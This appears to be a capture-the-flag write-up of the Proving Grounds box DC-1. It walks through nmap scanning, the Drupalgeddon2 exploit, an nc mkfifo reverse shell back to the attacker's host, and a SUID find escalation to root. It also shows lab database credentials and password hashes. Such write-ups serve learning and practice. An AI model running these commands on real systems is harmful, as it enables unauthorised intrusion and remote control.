


# DC-1
**Date:** September 10th 2022

**Author:** j.info

**Link:** [**Proving Grounds**](https://portal.offensive-security.com/proving-grounds/play) on Offensive Security

**PG Difficulty Rating:** Easy

<br>



<br>

## Objectives
- local.txt flag
- proof.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
80/tcp  open  http    Apache httpd 2.2.22 ((Debian))
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to Drupal Site | Drupal Site
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          50550/tcp6  status
|   100024  1          55270/udp   status
|   100024  1          55271/udp6  status
|_  100024  1          57092/tcp   status
```

An additional all ports scan showed:

```
57092/tcp open   status  1 (RPC #100024)
```

<br>

### Gobuster Scan

Gobuster was extremely slow and I didn't let it run very long as a result.

<br>

## Website Digging

Visiting the main page:



I wasn't able to do much with this website. After attempting to use hydra to brute force the admin user it ended up blocking my IP due to too many failed login attempts and had a cooldown period.

<br>

## Drupal Exploit

From our nmap scan we see that the website is running **Drupal 7**. I search around for exploits related to that version and find this:

[**Drupalgeddon2**](https://github.com/rafaelcaria/drupalgeddon2-CVE-2018-7600)

I check the code out and it looks good so I download it to my system and test it out:

`python3 drupalgeddon2.py -u http://192.168.118.193 -c 'id'`

```
[+] drupalgeddon2 (CVE-2018-7600) exploit by Rafael Caria
[+] Triggering exploit to execute: id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Alright it appears to be working. Let's see if we can get a reverse shell. I start out by checking to see if they have netcat on the system:

`python3 drupalgeddon2.py -u http://192.168.118.193 -c 'which nc'`

```
[+] drupalgeddon2 (CVE-2018-7600) exploit by Rafael Caria
[+] Triggering exploit to execute: which nc

/bin/nc
```

Alright time to get a shell.

<br>

## System Access

I use the standard nc mkfifo reverse shell:

`python3 drupalgeddon2.py -u http://192.168.118.193 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.49.118 4444 >/tmp/f'`

```
listening on [any] 4444 ...
connect to [192.168.49.118] from (UNKNOWN) [192.168.118.193] 43304
bash: no job control in this shell
www-data@DC-1:/var/www$
```

And upgrading the shell:

```
www-data@DC-1:/var/www$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@DC-1:/var/www$ ^Z
zsh: suspended  nc -nvlp 4444
                                                                                                        
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -nvlp 4444

www-data@DC-1:/var/www$ export TERM=xterm-256color
```

<br>

## System Enumeration

I check `sudo -l` and no luck.

Checking to see if there are any exploitable SUID files we see:

`find / -perm /4000 2>/dev/null`

```
-rwsr-xr-x 1 root root 159K Jan  6  2012 /usr/bin/find
```

Checking [**GTFOBins**](https://gtfobins.github.io/gtfobins/find/) shows us we can run the following:

```
sudo find . -exec /bin/sh \; -quit
```

I look around for the first flag and find it in the /home directory:

`wc -c local.txt`

```
33 /root/proof.txt
```

I also find that MySQL is running on port 3306 and a config file has credentials hard coded. If you want to play around this a bit more the password hashes are available in the users table of this database:

```
/var/www/sites/default/settings.php

      'database' => 'drupaldb',
      'username' => 'dbuser',
      'password' => 'R0ck3t',
```

```
+-----+-----------+---------------------------------------------------------+-------------------+-------+-----------+------------------+------------+------------+------------+--------+---------------------+----------+---------+-------------------+------+
| uid | name      | pass                                                    | mail              | theme | signature | signature_format | created    | access     | login      | status | timezone            | language | picture | init              | data |
+-----+-----------+---------------------------------------------------------+-------------------+-------+-----------+------------------+------------+------------+------------+--------+---------------------+----------+---------+-------------------+------+
|   0 |           |                                                         |                   |       |           | NULL             |          0 |          0 |          0 |      0 | NULL                |          |       0 |                   | NULL |
|   1 | admin     | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR | admin@example.com |       |           | NULL             | 1550581826 | 1550583852 | 1550582362 |      1 | Australia/Melbourne |          |       0 | admin@example.com | b:0; |
|   2 | Fred      | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg | fred@example.org  |       |           | filtered_html    | 1550581952 | 1550582225 | 1550582225 |      1 | Australia/Melbourne |          |       0 | fred@example.org  | b:0; |
|   3 | testuser  | $S$DZpGpzUQMeWEVNjoTnHjVE00B/SBIfa7MjGKOP7BuUjcd4MerWXp | testuser@test.com |       |           | filtered_html    | 1662843661 |          0 |          0 |      0 | Australia/Melbourne |          |       0 | testuser@test.com | NULL |
+-----+-----------+---------------------------------------------------------+-------------------+-------+-----------+------------------+------------+------------+------------+--------+---------------------+----------+---------+-------------------+------+
```

The testuser listed in the table is one that I added on the website to see if there was anything I could do there.

<br>

## Root

We run the command from GTFOBins and get root:

```
www-data@DC-1:/tmp$ /usr/bin/find . -exec /bin/sh \; -quit
# whoami
root
```

`wc -c /root/proof.txt`

```
33 /root/proof.txt
```

<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding **Drupal 7** installed on the system and using the **Drupalgeddon2** (CVE-2018-7600) exploit for an initial foothold
- Gaining access to the **MySQL database** after finding hard coded credentials in a settings file
- Using a **SUID bit** set on the **find** command to escalate to root

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF
